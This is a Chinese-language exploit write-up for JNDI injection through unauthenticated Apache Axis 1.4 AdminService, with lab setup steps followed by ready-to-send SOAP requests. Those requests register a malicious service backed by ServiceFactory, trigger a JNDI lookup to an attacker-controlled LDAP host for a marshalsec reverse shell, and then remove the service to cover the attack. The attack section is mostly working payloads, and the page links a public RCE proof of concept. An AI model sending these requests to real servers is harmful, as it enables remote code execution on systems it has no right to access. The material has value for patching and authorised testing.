



# Axis AdminService 未授权访问

## 1. JNDI 注入

### 1.1 漏洞利用条件

Axis == 1.4
AdminService enableRemoteAdmin == True, 或者存在 SSRF 漏洞

### 1.2 搭建

axis bin 包解压后将 webapps 下 axis 复制到 tomcat 环境下的 webapps 目录下：

下载:
[http://mirror.navercorp.com/apache/axis/axis/java/1.4/](http://mirror.navercorp.com/apache/axis/axis/java/1.4/)

- 本地环境变量更新
  执行本地构建命令时需要环境变量找到 jar 包路径

```
vim ~/.profile

export AXIS_HOME=/var/lib/tomcat8/webapps/axis
export AXIS_LIB=$AXIS_HOME/WEB-INF/lib
export AXISCLASSPATH=$AXIS_LIB/axis.jar:$AXIS_LIB/commons-discovery-0.2.jar:$AXIS_LIB/commons-logging-1.0.4.jar:$AXIS_LIB/jaxrpc.jar:$AXIS_LIB/saaj.jar:$AXIS_LIB/log4j-1.2.8.jar:$AXIS_LIB/xml-apis.jar:$AXIS_LIB/xercesImpl.jar:$AXIS_LIB/wsdl4j-1.5.1.jar

source ~/.profile
```

- 开启 RemoteAdmin 服务

```
webapps/axis/WEB-INF/deploy.wsdd

<deployment xmlns="http://xml.apache.org/axis/wsdd/"
    xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
  <service name="AdminService" provider="java:MSG">
    <parameter name="className" value="org.apache.axis.utils.Admin"/>
    <parameter name="allowedMethods" value="*"/>
    <parameter name="enableRemoteAdmin" value="true"/>
  </service>
</deployment>
```

- 部署刷新配置

```
java -cp $AXISCLASSPATH org.apache.axis.client.AdminClient deploy.wsdd
```


### 1.3 JNDI 注入点

- 所有默认可用的 jar 包
  

发现 org.apache.axis.client.ServiceFactory 下 getService 服务中获取 environment 中的 jndiName 再进行 context.lookup 访问恶意 ldap 服务器：


### 1.4 利用过程

- 通过 AdminService 接口注册服务

```
POST /axis/services/AdminService HTTP/1.1
Host: 192.168.123.136:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 737

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <soapenv:Body>
    <ns1:deployment xmlns:ns1="http://xml.apache.org/axis/wsdd/" xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
      <ns1:service name="test1Service" provider="java:RPC">
        <ns1:parameter name="className" value="org.apache.axis.client.ServiceFactory"/>
        <ns1:parameter name="allowedMethods" value="*"/>
      </ns1:service>
    </ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```


- 利用刚才注册的服务进行 jndi 注入
  访问创建的 test1Service 进行 jndi 注入：

```
POST /axis/services/test1Service HTTP/1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.123.136:8080/axis/servlet/AxisServlet
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-TW;q=0.9,zh-CN;q=0.8
Connection: close
SOAPAction:
Content-Type: text/xml;charset=UTF-8
Host: 192.168.123.136:8080
Content-Length: 720

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:buil="http://build.antlr">
  <soapenv:Header/>
  <soapenv:Body>
    <buil:getService soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <environment xmlns:apachesoap="http://xml.apache.org/xml-soap" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xsi:type="apachesoap:Map">
        <item>
          <key xsi:type="soapenc:string">jndiName</key>
          <value xsi:type="soapenc:string">ldap://[vps_adress]:1389/Reverse1</value>
        </item>
      </environment>
    </buil:getService>
  </soapenv:Body>
</soapenv:Envelope>
```

- marshalsec ldap 反弹 shell：
  
  

- 卸载服务

```
POST /axis/services/AdminService HTTP/1.1
Host: 192.168.123.136:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 463

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
<undeployment xmlns="http://xml.apache.org/axis/wsdd/">
 <service name="test1Service"/>
</undeployment>
  </soapenv:Body>
</soapenv:Envelope>
```

- 参考链接  
  [https://axis.apache.org/axis/java/install.html](https://axis.apache.org/axis/java/install.html)
  https://github.com/KibodWapon/Axis-1.4-RCE-Poc
